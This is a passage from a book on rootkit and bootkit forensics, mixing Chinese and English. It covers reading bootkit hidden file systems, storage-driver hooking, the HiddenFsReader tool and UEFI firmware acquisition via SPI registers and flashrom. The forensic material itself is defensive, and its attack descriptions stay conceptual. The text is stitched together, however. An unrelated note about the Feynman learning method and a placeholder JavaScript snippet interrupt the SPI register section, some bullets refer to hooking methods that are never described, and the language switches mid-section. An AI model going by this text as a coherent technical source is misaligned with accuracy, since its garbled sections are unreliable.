恶意软件在隐藏文件系统上存储的数据会保存在操作系统未使用的硬盘空闲区域，以避免与操作系统冲突。通常，这块空闲区位于硬盘的末尾，因为那里通常有未分配空间。但在某些情况下（例如本文中讨论的 Rovnix 引导根套件），恶意软件可以将其隐藏文件系统存储在硬盘开头的未分配空间中。

任何从事取证分析的研究人员的主要目标是检索这些隐藏的数据，接下来我们将讨论几种实现方法。

### 从隐藏文件系统中检索引导根套件数据

我们可以通过在系统离线时（即恶意软件处于非活动状态）获取数据，或在活动受感染系统上读取恶意数据来获取取证信息。每种方法都有其优缺点，我们将在讨论两种方法时进行分析。

#### 从离线系统中检索数据

让我们先从系统离线时（即恶意软件处于非活动状态）的硬盘数据获取开始。我们可以通过对硬盘进行离线分析来实现，另一种方法是使用 Live CD 启动非感染的操作系统实例。这样可以确保系统使用 Live CD 上安装的未受篡改引导加载程序，从而防止引导根套件执行。该方法假设引导根套件在合法引导加载程序之前已无法执行，也无法在尝试从外部设备引导时提前擦除敏感数据。

相较于在线分析，该方法的主要优势在于不需要绕过恶意软件保护隐藏存储内容的自防范机制。正如我们在后续章节中看到，绕过恶意软件的保护并非易事，需要一定的专业知识。

> **NOTE**
>
> 一旦你获得硬盘上存储的数据访问权限，就可以开始 dump 恶意隐藏文件系统的镜像，并对其进行解密和解析。不同类型的恶意软件需要不同的解密和解析隐藏文件系统的方法，我们将在“解析隐藏文件系统镜像”章节（第 360 页）中讨论。

然而，该方法的缺点是需要同时具备对受感染计算机的物理访问以及使用 Live CD 启动系统并 dump 隐藏文件系统的技术 know-how。满足这两个条件可能很困难。

如果无法在非活动机器上进行分析，则必须采用活动方法。

#### 在活动系统中读取数据

在恶意软件仍在运行的活动系统上，我们需要 dump 恶意隐藏文件系统的内容。

然而，在活动系统上读取恶意隐藏存储的主要困难是：恶意软件可能会尝试对读取操作进行干扰，并伪造从硬盘读取的数据，以阻碍取证分析。我们在本文中讨论的大多数根套件（如 TDL3、TDL4、Rovnix、Olmasco 等）都会监控硬盘访问并阻止对包含恶意数据的区域进行访问。

要从硬盘读取恶意数据，必须绕过恶意软件的自防范机制。我们稍后会看到一些实现方法，但首先我们需要了解 Windows 存储设备驱动堆栈的结构以及恶意软件如何钩入该堆栈，以便更好地理解其如何保护恶意数据。这也有助于理解绕过恶意钩子的某些方法。

##### 钩入最小端存储驱动

我们在第 1 章中简要提到了 Microsoft Windows 存储设备驱动堆栈的架构以及恶意软件如何钩入它。该方法经受了 TDL3 的考验，并被后来的恶意软件（包括本文中讨论的引导根套件）所采用。下面我们将更详细地阐述。

TDL3 钩入了存储设备驱动堆栈最底层的 miniport 存储驱动，如图 18-2 所示。


*Figure 18-2: 设备存储驱动堆栈*

在驱动堆栈的最底层钩入并直接与硬件通信，使恶意软件能够监控和修改发往硬盘以及从硬盘返回的 I/O 请求，从而获取其隐藏存储的访问权限。

在驱动堆栈的最底层钩入并直接与硬件通信，还能让恶意软件绕过在文件系统或磁盘类驱动层面运行的安全软件。因为当对硬盘执行 I/O 操作时，操作系统会生成一个输入/输出请求包（`IRP`）——一种在操作系统内核中描述 I/O 操作的特殊数据结构——并将其从堆栈顶部传递到底部。

负责监控硬盘 I/O 操作的安全软件模块可以检查和修改 `IRP` 包，但由于恶意钩子安装在安全软件之下的层级，它们对这些安全工具不可见。

引导根套件可能会在其他层级进行钩入，如用户模式 API、文件系统驱动或磁盘类驱动，但这些层级无法提供与在 miniport 存储驱动层面那样隐蔽和强大的效果。

###### 存储设备堆栈布局

本节不会详细介绍所有可能的 miniport 存储钩入方法。我们将专注于在我们的恶意软件分析中最常见的几种实现方式。

首先，我们来看图 18-3 所示的存储设备。


*Figure 18-3: Miniport 存储设备组织结构*

`IRP` 从堆栈顶部向底部传递。堆栈中的每个设备要么处理并完成 I/O 请求，要么将其转发到下一层设备。

`DEVICE_OBJECT` ➊ 是操作系统用于描述堆栈中设备的系统数据结构，它包含一个指针 ➋ 指向相应的 `DRIVER_OBJECT`，`DRIVER_OBJECT` 是描述系统中加载驱动的系统数据结构。在此情况下，`DEVICE_OBJECT` 包含指向 miniport 存储驱动的指针。

`DRIVER_OBJECT` 结构体的布局如 Listing 18-1 所示。

```
typedef struct _DRIVER_OBJECT {  
    SHORT Type;  
    SHORT Size;  
    PDEVICE_OBJECT DeviceObject;  
    ULONG Flags;  
    PVOID DriverStart;  
    ULONG DriverSize;  
    PVOID DriverSection;  
    PDRIVER_EXTENSION DriverExtension;  
    UNICODE_STRING DriverName;  
    PUNICODE_STRING HardwareDatabase;  
    PFAST_IO_DISPATCH FastIoDispatch;  
    LONG * DriverInit;  
    PVOID DriverStartIo;  
    PVOID DriverUnload;  
    LONG * MajorFunction[28];  
} DRIVER_OBJECT, *PDRIVER_OBJECT;
```

*Listing 18-1: DRIVER_OBJECT 结构体的布局*

- 该方法被 TDL3/TDL4、Rovnix 和 Olmasco 使用，与前面提到的方法具有相同的优势和缺点。然而，由于整个 `DRIVER_OBJECT` 结构不同，其钩子（hooks）甚至更难以移除，这意味着安全软件需要付出额外的努力来定位原始的 `DRIVER_OBJECT` 结构。

- 这篇讨论关于设备驱动程序栈钩子技术的结论。正如我们所看到的，没有一种通用的简单方法可以移除恶意钩子，以便从受感染硬盘的受保护区域读取恶意数据。另一个困难是，有许多不同的 miniport 存储驱动程序实现，由于它们直接与硬件通信，每个存储设备厂商都会为其硬件提供定制驱动程序，因此针对某一类 miniport 驱动程序的方法对其他类别的驱动程序会失效。

### 解析隐藏文件系统映像

一旦根套件的自防护措施被停用，我们就可以从恶意隐藏存储中读取数据，这会得到恶意文件系统的映像。取证分析的下一步是解析隐藏文件系统并提取有意义的信息。

要解析已捕获的文件系统映像，我们需要知道该映像对应的恶意类型。每种威胁都有其隐藏存储的实现，唯一的方法是让恶意代码理解负责维护它的代码，从而重建其布局。在某些情况下，同一恶意家族的不同版本的隐藏存储布局可能会发生变化。

恶意软件可能会对隐藏存储进行加密或混淆，以增加取证分析的难度，此时我们需要找到加密密钥。

**表 18-1**（[`example.org/ch18.xhtml#ch18tab01`](http://example.org/ch18.xhtml#ch18tab01)）总结了我们在前面章节讨论的恶意家族所对应的隐藏文件系统的基本特征，包括布局类型、使用的加密方式以及是否实现压缩。

**表 18-1：** 隐藏文件系统实现比较

| **功能/恶意软件** | **TDL4** | **Rovnix** | **Olmasco** | **Gapz** |
| --- | --- | --- | --- | --- |
| 文件系统类型 | 自定义 | FAT16 修改版 | 自定义 | 自定义 |
| 加密 | XOR/RC4 | 自定义（XOR+ROL） | RC6 修改版 | RC4 |
| 压缩 | 否 | 是 | 否 | 是 |

如上表所示，每种实现都不同，这为取证分析人员和调查人员带来了困难。

### 隐藏文件系统读取工具

在我们对高级恶意威胁进行研究的过程中，我们逆向工程了许多不同的恶意家族，并积累了关于隐藏文件系统实现的大量信息，这些信息对安全研究社区非常有用。因此，我们实现了一个名为 **HiddenFsReader**（[`download.eset.com/special/ESETHfsReader.exe/`](http://download.eset.com/special/ESETHfsReader.exe/)）的工具，该工具能够自动在计算机上查找隐藏的恶意容器并提取其中的信息。

**图 18-7**（[`example.org/ch18.xhtml#ch18fig07`](http://example.org/ch18.xhtml#ch18fig07)）展示了 HiddenFsReader 的高层次架构。


*图 18-7：HiddenFsReader 的高层次架构*

`HiddenFsReader` 由两个组件组成：用户模式应用程序和内核模式驱动程序。内核模式驱动程序主要负责禁用根套件/引导套件的自防护机制，而用户模式应用程序则为用户提供对硬盘低级访问的界面。应用程序通过该界面即使在系统上运行恶意软件时，也能读取硬盘的实际数据。


用户模式应用程序负责识别从硬盘中读取的隐藏文件系统，并实现解密功能，以获取加密隐藏存储的明文数据。

下面列出的威胁及其对应的隐藏文件系统在 `HiddenFsReader` 的最新版本（截至本文写作时）中得到支持：

- Win32/Olmarik（TDL3/TDL3+/TDL4）
- Win32/Olmasco（MaxXSS）
- Win32/Sirefef（ZeroAccess）
- Win32/Rovnix
- Win32/Xpaj
- Win32/Gapz
- Win32/Flamer
- Win32/Urelas（GBPBoot）
- Win32/Avatar

这些威胁使用自定义隐藏文件系统来存储载荷和配置数据，从而更好地躲避安全软件，使取证分析更加困难。我们在这本书中没有讨论所有这些威胁，但您可以在 [`nostarch.com/rootkits/`](https://nostarch.com/rootkits/) 的参考文献列表中找到相关信息。

### 结论

自定义隐藏文件系统的实现是根套件和引导套件等高级威胁的常见做法。隐藏存储用于保存配置信息和载荷，使得传统的取证方法失效。

取证分析人员必须停用威胁的自防护机制并逆向工程恶意软件，从而重建隐藏文件系统的布局，并识别用于保护恶意数据的加密算法和密钥。这需要在每种威胁上投入额外的时间和精力，但本章探讨了一些可能的应对方法。在 **第 19 章** 中，我们将继续探讨恶意软件的取证分析，重点讨论针对 UEFI 固件的根套件。

## 19 BIOS/UEFI 取证：固件获取与分析方法


针对 UEFI 固件的根套件日益引起关注，泄露的国家级 BIOS 嵌入式恶意软件以及第 15 章中提到的 Hacking Team 安全事件展示了针对 BIOS 的恶意软件日益隐蔽和强大的能力，促使研究社区更深入地研究固件。我们在前面的章节已经讨论了一些这些 BIOS 威胁的技术细节。如果您没有阅读 **第 15 章** 和 **第 16 章**，我们强烈建议先阅读它们；这两章涵盖了本章假设您已掌握的重要固件安全概念。

> **NOTE**
>
> 在本章中，我们使用 `BIOS` 和 `UEFI 固件` 交替使用。

UEFI 固件取证是一个新兴的研究领域，因此该领域的安全研究人员缺乏传统的工具和方法。本章将介绍一些固件分析技术，包括获取固件映像的不同方法以及解析和提取有用信息的技术。

我们首先关注固件获取，这通常是取证分析的第一步。我们分别介绍软件和硬件两种获取 UEFI 固件映像的方法，并比较它们的优缺点。随后，我们讨论 UEFI 固件映像的内部结构，并说明如何解析它以提取取证信息。在此过程中，我们展示了如何使用 **UEFITool**，这是一个用于浏览和修改 UEFI 固件映像的不可或缺开源工具。最后，我们讨论 **Chipsec**，这是一个功能极其丰富且强大的工具，并考虑其在取证分析中的应用。这两个工具都在 **第 15 章** 中介绍。

### 我们取证技术的局限性

The material we present here does have some limitations. In modern platforms, there are many types of firmware: `UEFI firmware`、`Intel ME firmware`、`hard drive controller firmware`，等等。本章专门讨论 `UEFI firmware` 的分析，它构成了平台固件中最大的部分之一。

还要注意，固件非常依赖平台；也就是说，每个平台都有其自身的特性。在本章中，我们将重点关注 `Intel x86` 系统的 `UEFI firmware`，它们构成了台式机、笔记本电脑和服务器市场细分领域的大多数。

### Why Firmware Forensics Matter

In Chapter 15, we saw that modern firmware is a convenient place for embedding very powerful backdoors or rootkits, specifically in the BIOS. This type of malware is capable of surviving OS reinstallation or hard drive replacement, and it gives an attacker control over an entire platform. At the time of this writing, most state-of-the-art security software doesn’t take into account `UEFI firmware` threats at all, making them even more dangerous. This gives an attacker a big opportunity to implant malware that persists undetected on the target system.

Next, we outline a couple of specific ways attackers might use firmware rootkits.

#### 攻击供应链

Threats targeting `UEFI firmware` increase the risk of supply chain attacks, because attackers can install a malicious implant on a server before it is delivered to the data center or to a laptop before it gets to the IT department. And because these threats can impact a large number of a service provider’s clients by exposing all their secrets, big cloud-computing players like `Google` have recently started to use firmware forensic analysis techniques to ensure that their firmware isn’t compromised.

**GOOGLE TITAN CHIP**

In 2017, `Google` publicly introduced `Titan`, a chip that protects platform firmware by establishing a hardware root of trust. Trusting your hardware configuration is important, especially when it comes to cloud security, where the impact of an attack is multiplied by the number of affected clients.

Companies that work with big clouds and data, like `Amazon`、`Google`、`Microsoft`、`Facebook` 和 `Apple`，are working on developing (or have developed) hardware to control the platform root of trust. Even if attackers use a firmware rootkit to compromise a platform, having an isolated root of trust will prevent `Secure Boot` attacks and firmware update attacks.

#### 通过固件漏洞攻破 BIOS

Attackers can compromise the platform firmware by exploiting a vulnerability in it to bypass BIOS write protection or authentication. For a refresher on this attack, return to Chapter 16, where we discuss different classes of vulnerabilities used to attack the BIOS. To detect these attacks, you could use the firmware forensic approaches discussed in this chapter to verify the integrity of a platform’s firmware or to help detect malicious firmware modules.

### Understanding Firmware Acquisition

The very first step in BIOS forensic analysis is the process of obtaining an image of the BIOS firmware to analyze. To better understand the location of BIOS firmware on modern platforms, refer to Figure 19-1, which demonstrates the architecture of a typical PC system’s chipset.

There are two main components in the chipset: a `CPU` and a Platform Controller Hub (`PCH`) or South Bridge. The `PCH` provides a connection between the controllers of peripheral devices available on the platform and the `CPU`. In most modern systems based on `Intel x86` architecture (including 64-bit platforms), the system firmware is located on a flash memory in the Serial Peripheral Interface (`SPI`) bus ➊, which is physically connected to the `PCH`. The `SPI` flash constitutes the main target for forensic analysis because it stores the firmware we want to analyze.


*Figure 19-1: A block diagram of a modern Intel chipset*

The motherboard of a PC typically has one discrete physical `SPI` flash chip soldered onto it, but you might occasionally encounter systems with multiple `SPI` flash chips. This happens when a single chip doesn’t have enough capacity to store all the system firmware; in that case, the platform vendor uses two chips. We discuss this situation later in this chapter, in “Locating the SPI Flash Memory Chip” on page 376.

**DUALBIOS TECHNOLOGY**

`DualBIOS` technology also uses multiple `SPI` flash chips on the motherboard of a computer. But unlike the approach just discussed, where multiple `SPI` flash chips store a single firmware image, `DualBIOS` technology uses multiple chips to store different firmware images or multiples of the same firmware image. This technology provides additional protection against firmware corruption, because if the firmware in one chip is corrupted, the system could boot from a second chip containing an identical firmware image.

To acquire the firmware image stored on the `SPI` flash, you need to be able to read the contents of the flash. Generally speaking, you can read the firmware using either a software or a hardware approach. In the software approach, you attempt to read the firmware image by communicating with the SPI controller using software running on the host `CPU`. In the hardware approach, you physically attach a special device called an `SPI` programmer to the `SPI` flash, then read the firmware image directly from the `SPI` flash. We’ll cover both approaches, starting with the software method.

Before we go into the description of the software approach, however, you should understand that each approach has its advantages and limitations. One of the benefits of dumping `UEFI` firmware using the software method is that you can do it remotely. A user of the target system can run an application to dump the contents of the `SPI` flash and send it to a forensic analyst. But this approach also has a major drawback: if an attacker has already compromised the system firmware, he or she could interfere with the process of firmware acquisition by forging the data read from the `SPI` flash. This makes the software approach somewhat unreliable.

The hardware approach doesn’t have the same drawback. Even though you must be physically present and it requires you to open the target system’s chassis, this method directly reads the contents of the powered-off system’s `SPI` flash without giving the attacker any opportunity to counterfeit the data (unless you’re dealing with a hardware implant, which we don’t cover in this book).


### The Software Approach to Firmware Acquisition

In the software approach to dumping `UEFI` firmware from the target system, you read the contents of the `SPI` flash from the operating system. You can access modern systems’ `SPI` controllers through registers in the `PCI configuration space` (a block of registers that specify device configuration on the PCI bus). These registers are memory mapped, and you can read and write to them using regular memory read and write operations. In this section, we’ll demonstrate how to locate these registers and communicate with the `SPI` controller.

Before we proceed, you should know that the location of an `SPI` register is chipset specific, so in order to communicate with an `SPI` controller, we need to refer to the chipset dedicated to the platform we’re targeting. In this chapter, we’ll demonstrate how to read the `SPI` flash on chipsets in Intel’s 200 Series (the location of `SPI` registers can be found at [www.intel.com/content/www/us/en/chipsets/200-series-chipset-pch-datasheet-vol-2.html](https://www.intel.com/content/www/us/en/chipsets/200-series-chipset-pch-datasheet-vol-2.html)), which are the latest chipsets for desktop systems at the time of this writing.

- [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者 Richard Feynman。

1. 运用费曼技巧，你只需花上 `20 min` 就能深入理解知识点，而且记忆深刻，难以遗忘。

```
if (condVar > someVal) {console.log("xxx")}
```

一旦我们通过设置 HSFC 寄存器的 FGO 字段启动 SPI 循环，就可以通过查看 `hardware sequencing flash status (HSFS)` 寄存器来确定循环何时完成。该寄存器由多个字段组成，提供所请求操作的状态信息。在 `Table 19-2` 中可以看到用于读取 SPI 镜像的 HSFS 字段。

**Table 19-2:** The SPI Register HSFS Fields

| Field offset | Field size | Field name | Field description |
| --- | --- | --- | --- |
| `0h` | `1` | `FDONE` | Flash cycle done |
| `1h` | `1` | `FCERR` | Flash cycle error |
| `2h` | `1` | `AEL` | Access error log |
| `5h` | `1` | `SCIP` | SPI cycle in progress |

The `FDONE` bit is set by the chipset when the previous flash cycle (initiated by the HSFC register’s `FGO` field) is complete. The `FCERR` and `AEL` bits indicate that an error has occurred during the SPI flash cycle and that the returned data may not contain valid values, respectively. The `SCIP` bit indicates that the flash cycle is in progress. We set the `SCIP` by setting the `FGO` bit, and the `SCIP` clears when the value of `FDONE` is `1`. Based on this information, we can determine that the operation we initiated has completed successfully when the following expression is true:

```
(FDONE == 1) && (FCERR == 0) && (AEL == 0) && (SCIP == 0)
```

#### The FDATAX Registers

The `array of flash data (FDATAX)` registers hold the data to be read from or written to the SPI flash. Each register is 32 bits, and the total number of `FDATAX` registers in use depends on the amount of bytes to transfer, which is specified in the HSFC register’s `FDBC` field.

#### Reading Data from the SPI Flash

Now let’s put together all this information and see how to read data from the SPI flash using these registers. First, we locate the Root Complex Registers Block, from which we can determine the base address of SPI memory‑mapped registers and get access to those registers. By reading the `FREG1` SPI register, we can determine the location of the BIOS region on the flash—that is, the BIOS starting address and BIOS limit.

Next, we read the BIOS region using the SPI registers just described. This step is demonstrated in `Figure 19-5`.


*Figure 19-5: Reading data from the SPI flash*

First, we set `FADDR` to the linear address of the flash memory region that we want to read ➊. Then we specify the total number of bytes to read from flash memory by setting the `FDBC` field ➋ of the flash control register. (A value of `111111b` would read 64 bytes per cycle.) Next we set the `FCYCLE` field ➌ with the `00b` value, which indicates the read cycle and sets the `FGO` bit ➍ that starts our flash reading operation.

Once we set the `FGO` bit, we need to monitor the flash status register to know when the operation is complete. We can do this by checking the `FDONE`, `FCERR`, `AEL`, and `SCIP` fields ➎. Once the read operation is finished, we read flash data from the `FDATAX` registers ➏. The `FDATAX[1]` register provides us with the first 4 bytes of flash memory at the target address specified in the `FADDR` register; `FDATAX[2]` provides us with the second 4 bytes of flash memory, and so on. By repeating these steps and incrementing the `FADDR` value by 64 bytes in each iteration, we read the whole BIOS region from the SPI flash.

#### Considering the Drawbacks of the Software Approach

The software approach to BIOS firmware dumping is convenient because it doesn’t require you to be physically present; with this method, you can read the contents of the SPI flash remotely. But it isn’t robust against an attacker who has already compromised the system firmware and can execute malicious code in SMM.

As we’ve noted, the HSFC register has an `FSMIE` bit that triggers an SMI when the flash cycle completes. If an attacker has already compromised SMM and is able to set the `FSMIE` bit before the firmware acquisition software sets the `FGO` bit, then the attacker will receive control once the SMI is generated and will be able to modify the contents of the `FDATAX` registers. As a result, the firmware acquisition software will read forged values from `FDATAX` and won’t be able to get an original image of the BIOS region. `Figure 19-6` demonstrates this attack.


*Figure 19-6: Subverting a software BIOS acquisition via SMI*

Before the reader sets the `FGO` bit ➋ in the flash control register, the attacker writes 1 to the register’s `FSMIE` bit ➊. Once the cycle is finished and data is written back to the `FDATAX` registers, an SMI is triggered and the attacker receives control ➌. Then the attacker modifies the contents of the `FDATAX` registers ➍ to conceal the attack on the BIOS firmware. After regaining control, the reader will receive fake data ➎ and won’t detect the compromised firmware.

This attack demonstrates that the software approach doesn’t provide a 100 percent reliable solution for firmware acquisition. In the following section, we’ll discuss the hardware approach to obtaining system firmware for forensic analysis. Conducting forensic analysis by physically attaching a device to the SPI flash avoids the possibility of the attack depicted in `Figure 19-6`.

### The Hardware Approach to Firmware Acquisition

To guarantee we have acquired the actual BIOS image stored on the SPI flash and not one already compromised by an attacker, we can use the hardware approach. With this approach, we physically attach a device to the SPI flash memory and read its contents directly. This is the best solution because it’s more trustworthy than the software approach. As an extra benefit, this approach allows us to obtain other firmware stored on the SPI flash, like ME and GBE firmware, which might not be accessible with the software approach due to restrictions enforced by the SPI controller.

The SPI bus on modern systems allows multiple masters to communicate with the SPI flash. For instance, on systems based on the Intel chipset, there are generally three masters: the host CPU, the Intel ME, and GBE. These three masters have different access rights to different regions of the SPI flash. On most modern platforms, the host CPU can’t read and write to the SPI flash region containing the Intel ME and GBE firmware.

`Figure 19-7` demonstrates a typical setup for obtaining the BIOS firmware image by reading the SPI flash.


*Figure 19-7: A typical setup for dumping the SPI flash image*


In order to read data from the flash memory, we need an additional device, called an `SPI programmer`, which we physically attach to the SPI flash memory chip on the target system. We also connect the `SPI programmer` via a USB or UART interface to a host that we use to obtain the BIOS firmware image. We would then run some particular software on the programmer to make it read data from the flash memory chip and transfer the data to the analyst’s computer. This might be proprietary software provided with a particular `SPI programmer`, or it could be an open source solution such as the `Flashrom` tool, which is discussed later in “Reading the SPI Flash with the FT2232 Mini Module” on page 377.

#### Reviewing a Lenovo ThinkPad T540p Case Study

## DEDIPROG SF100 ISP IC PROGRAMMER

Another device we’d like to mention is the Dediprog SF100 ISP IC Programmer (shown in Figure 19-8). It’s popular in the security research community, supports many SPI flashes, and offers extensive functionality. Minnowboard, an open source reference board for hardware and firmware developers, has a good tutorial on using Dediprog for updating firmware at `https://minnowboard.org/tutorials/updating-firmware-via-spi-flash-programmer/`.

### Locating the SPI Flash Memory Chip

Let’s start by physically reading the firmware image from the Lenovo ThinkPad T540p platform. First, to dump the system firmware from the target system, we need to find where, on the main board, the SPI flash memory chips are located. To do this, we consulted the Hardware Maintenance Manual (`https://pads.com/support/hmm/hmm_pdf/t540p_w540_hmm_en_sp40a26003_01.pdf`) for this laptop model and took apart the target system’s hardware. In Figures 19-9 and 19-10, you can see the locations of the two flash memory chips. Figure 19-9 shows a complete image of the system board. The SPI flash chips are located in the highlighted area.

### WARNING

Don’t repeat the actions described in this section unless you are 100 percent sure of what you’re doing. An invalid or incorrect configuration of the tools may brick the target system.


*Figure 19-9: The Lenovo ThinkPad T540p mainboard with SPI flash modules*

Figure 19-10 zooms in on the region highlighted in Figure 19-9 so you can see the SPI flash chips more clearly. This laptop model uses two SOIC-8 flash memory modules to store the firmware—a 64Mb (8MB) one and a 32Mb (4MB) one. This is a very popular solution on many modern desktops and laptops.

### Reading the SPI Flash with the FT2232 Mini Module

Once we’ve identified the physical location of the chips, we can connect the `SPI programmer`’s pins to the flash module on the system board. The datasheet (`http://www.ftdichip.com/Support/Documents/DataSheets/Modules/DS_FT2232H_Mini_Module.pdf`) for the `FT2232H Mini Module` shows us which pins we should use to attach the device to the memory chip. Figure 19-11 demonstrates the layout of the pins for both the `FT2232H Mini Module` and the SPI flash chip.

The `FT2232H` has two sets of pins, corresponding to two channels: Channel 2 and Channel 3. You may use either channel to read the contents of the SPI flash memory. In our experiment, we use Channel 3 to attach the `FT2232H` to the SPI memory chip. Figure 19-11 shows which of the `FT2232H` pins we connected to the corresponding pins of the SPI flash memory chip.

In addition to connecting the `FT2232H` to the memory chip, we need to configure it to operate in USB bus-powered mode. The `FT2232H Mini Module` supports two modes of operating: `USB bus-powered` and `self-powered`. In the bus-powered mode, the mini module takes power from the USB bus it is attached to, and in self-powered mode, the power is provided independently of the USB bus connection.


*Figure 19-11: The layout of the pins for the FT2232H Mini Module and SPI flash chip*


*Figure 19-12: Attaching the FT2232H Mini Module to the SPI flash chip*

Once we connect all the components, we can read the contents of the SPI flash chip. To do this, we use an open source tool called `Flashrom` (`https://www.flashrom.org/Flashrom`). This tool was developed specifically for identifying, reading, writing, verifying, and erasing flash chips. It supports a large number of flash chips and works with many different `SPI programmers`, including the `FT2232H Mini Module`.

```
user@host: flashrom -p ft2232_spi:type=2232H,port=B --read dump_1.bin
```

```
Found Macronix flash chip MX25L6436E/MX25L6445E/MX25L6465E/MX25L6473E (8192 kB, SPI) on ft2232_spi.
```

```
user@host: flashrom -p ft2232_spi:type=2232H,port=B --read dump_2.bin
```

```
user@host: cat dump_2.bin >> dump_1.bin
```

First, we run `Flashrom` to dump the contents of the first SPI flash chip, passing it a programmer type and port number as parameters. The type we specify, 2232H, corresponds to our `FT2232H Mini Module`, and port B corresponds to Channel 3, the one we’re using to connect to the SPI flash chip. The `--read` parameter tells `Flashrom` to read the contents of the SPI flash memory into the `dump_1.bin` file. Once we run the tool, it displays the type of the detected SPI flash chip—in our case, Macronix MX25L6473E.

After reading the first flash chip, we reconnect the clip to the second chip and run `Flashrom` again to dump the second chip’s contents into the `dump_2.bin` file. Once this operation is done, we create a complete image of the firmware by concatenating the two dumped images.

We have now dumped a complete, trustworthy image of the firmware. Even if the BIOS is already infected and an attacker attempts to thwart our firmware acquisition, we’ll still obtain the actual firmware code and data. Next, we’ll analyze it.

### Analyzing the Firmware Image with UEFITool


*Figure 19-13: Using UEFITool to analyze the firmware image*

获取目标系统的 SPI flash 固件映像后，我们可以对其进行分析。本节将介绍平台固件的基本组件，如固件卷、卷文件以及理解闪存映像中 UEFI 固件布局所需的段。随后，我们将重点讨论固件法医分析中最重要的步骤。

**NOTE**

在本节中，我们将提供高层次的描述，而不是对所使用的数据结构的详细定义，因为该主题范围过大，超出了本章的范围。如果您需要进一步信息，我们会提供文档链接，其中包含数据结构的定义和布局。

我们将会回顾 `UEFITool` *[`github.com/LongSoft/UEFITool/`](https://github.com/LongSoft/UEFITool/)*，这是一款用于解析、提取和修改 UEFI 固件映像的开源工具，该工具在 第 15 章 中介绍，用于演示我们在上一节获取的真实固件映像的理论概念。能够查看固件映像、浏览并提取各种组件对于法医分析极为有用。该工具无需安装，下载后即可直接运行。

#### 了解 SPI Flash 区域

在查看固件映像之前，我们需要了解 SPI flash 上存储的信息是如何组织的。现代基于 Intel 芯片组的 SPI flash 通常包含多个区域，每个区域专门用于存储特定平台设备的固件；例如，UEFI BIOS 固件、Intel ME 固件以及 Intel GBE（集成以太网卡）固件各自占据独立的区域。Figure 19-13 展示了 SPI flash 中多个区域的布局。


*Figure 19-13: Regions of the SPI flash image*

现代系统的 SPI flash 支持最多六个区域，包括 `descriptor` 区域，固件映像始终从该区域开始。`Descriptor` 区域包含关于 SPI flash 布局的信息，即向芯片组提供其他区域的位置和访问权限。它还决定了系统中各主机对 SPI flash 控制器的访问权限。多个主机可以同时与控制器通信。完整的 `Descriptor` 区域布局，包括其中所有数据结构的定义，可在目标平台芯片组规格中找到。

本章我们主要关注 BIOS 区域，它是 CPU 在复位向量处执行的固件区域。我们可以从 `Descriptor` 区域中提取 BIOS 区域的位置。通常 BIOS 是 SPI flash 的最后一个区域，也是法医分析的主要目标。

下面我们来查看本次硬件获取的 SPI 映像中不同的区域。

#### 使用 UEFITool 查看 SPI Flash 区域

首先启动 `UEFITool`，选择 **File**▸**Open image file**，然后选择要分析的 SPI 映像文件——我们在本书资源中提供了一个可用的文件，网址为 *[`nostarch.com/rootkits/`](https://nostarch.com/rootkits/)*。Figure 19-14 展示了该操作的结果。


*Figure 19-14: Browsing SPI flash regions in UEFITool*

固件映像加载后，`UEFITool` 会自动解析并以树状结构提供信息。在 Figure 19-14 中，工具识别出该固件映像来自基于 Intel 芯片组的系统，且仅包含四个 SPI 区域：descriptor、ME、GbE 和 BIOS。如果在 Structure 窗口中选中 BIOS 区域，则可在 Information 窗口中查看相关信息。`UEFITool` 显示了以下描述该区域的项：

**Offset** 该区域相对于 SPI flash 映像起始地址的偏移

**Full size** 该区域的字节大小

**Memory address** 该区域在物理内存中映射的地址

**Compressed** 该区域是否包含压缩数据

工具提供了一个便捷方式，通过右键区域并选择 **Extract as is . . .** 来提取单个区域（以及 Structure 窗口中显示的其他对象）并保存为独立文件，如 Figure 19-15 所示。


*Figure 19-15: Extracting a BIOS region and saving it as a separate file*

提取并保存区域时，右键区域并选择 **Extract as is . . .** 后，会出现常规对话框，让您选择保存新文件的位置。完成后，请确认所选位置，以验证操作是否成功。

#### 分析 BIOS 区域


在确定 BIOS 区域的位置后，我们可以开始分析。从高层面看，BIOS 区域被组织为 *firmware volumes*，即用于存储数据和代码的基本存储库。固件卷的精确定义见 EFI Firmware Volume Specification [`www.intel.com/content/www/us/en/architecture-and-technology/unified-extensible-firmware-interface/efi-firmware-file-volume-specification.html`](https://www.intel.com/content/www/us/en/architecture-and-technology/unified-extensible-firmware-interface/efi-firmware-file-volume-specification.html)。每个卷都以包含体积属性的头部开始，例如文件系统类型、体积大小以及校验和。

下面我们来查看本次获取的 BIOS 中可用的固件卷。如果在 UEFITool 窗口中双击 BIOS 区域（如 Figure 19-15），则会显示 BIOS 区域内可用的固件卷列表，如 Figure 19-16 所示。


*Figure 19-16: Browsing the firmware volumes available in the BIOS region*

我们的 BIOS 区域包含四个固件卷，并且会发现两个标记为 *Padding* 的区域。Padding 区域不属于任何固件卷，而是卷之间的空白空间，通常填充为 `0x00` 或 `0xff`，具体取决于 SPI flash 的擦除极性。擦除极性决定擦除操作时写入 flash 内存的值：若极性为 1，擦除后的字节为 `0xff`；若极性为 0，擦除后的字节为 `0x00`。因此，当擦除极性为 1 时，Padding 区域（空白空间）由 `0xff` 值组成。

在 Figure 19-16 右侧的信息选项卡中，可查看所选卷的属性。以下是部分重要字段：

**Offset** ➊ 该固件卷相对于 SPI 映像起始地址的偏移

**Signature** ➋ 固件卷头中的签名字段，用于标识 BIOS 区域中的卷

**Filesystem GUID** ➌ 固件卷使用的文件系统标识符，以 Globally Unique Identifier（GUID）形式出现。该 GUID 在 Structure 窗口中显示为卷的名称；如果 GUID 已被文档记录，UEFITool 会显示其人类可读名称（如 Figure 19-16 中的 `EfiFirmwareFileSystemGuid`）

**Header size** ➍ 固件卷头的大小，卷数据位于头部之后

**Body size** ➎ 固件卷体的大小，即卷中存储的数据大小

### 了解文件系统

- 固件体积是以文件系统的形式组织的，其类型在固件头中的文件系统 GUID 中指示。在固件体积中，最常用的文件系统是 `固件文件系统 (FFS)`，它在 EFI FFS 规范中定义，但固件体积也可能使用其他文件系统，例如 FAT32 或 NTFS。我们将重点关注 FFS，因为它是最常见的。

- FFS 将所有文件存储在根目录中，不支持任何目录层次结构。根据 EFI FFS 规范，每个文件都有一个关联的类型，该类型位于该文件的头部，用于描述该文件中存储的数据。以下是一些在取证分析中常见的文件类型列表：

  - `EFI_FV_FILETYPE_RAW`：一个原始文件——对文件中存储的数据不应做任何假设。
